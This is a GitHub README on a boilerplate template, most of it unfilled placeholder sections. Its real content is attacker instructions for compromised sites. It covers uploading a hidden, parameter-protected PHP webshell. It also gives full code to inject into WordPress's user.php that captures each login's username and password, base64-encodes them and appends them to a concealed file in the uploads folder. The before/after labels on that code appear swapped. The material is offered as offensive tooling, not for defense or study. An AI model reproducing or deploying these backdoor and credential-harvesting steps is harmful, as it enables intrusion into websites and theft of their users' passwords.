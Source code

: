 # JustRepository

One Paragraph of project description goes here

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php
before

```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.php.swp
```

## Running the tests

Explain how to run the automated tests for this system

### Break down into end to end tests

Explain what these tests test and why

```
Give an example
```

### And coding style tests

Explain what these tests test and why

```
Give an example
```

## Deployment

Add additional notes about how to deploy this on a live system

## Built With

* [Dropwizard](http://www.dropwizard.io/1.0.2/docs/) - The web framework used
* [Maven](https://maven.apache.org/) - Dependency Management
* [ROME](https://rometools.github.io/rome/) - Used to generate RSS Feeds

## Contributing

Please read [CONTRIBUTING.md](https://gist.github.com/PurpleBooth/b24679402957c63ec426) for details on our code of conduct, and the process for submitting pull requests to us.

## Versioning

We use [SemVer](http://semver.org/) for versioning. For the versions available, see the [tags on this repository](https://github.com/your/project/tags). 

## Authors

* **Billie Thompson** - *Initial work* - [PurpleBooth](https://github.com/PurpleBooth)

See also the list of [contributors](https://github.com/your/project/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

## Acknowledgments

* Hat tip to anyone whose code was used
* Inspiration
* etc
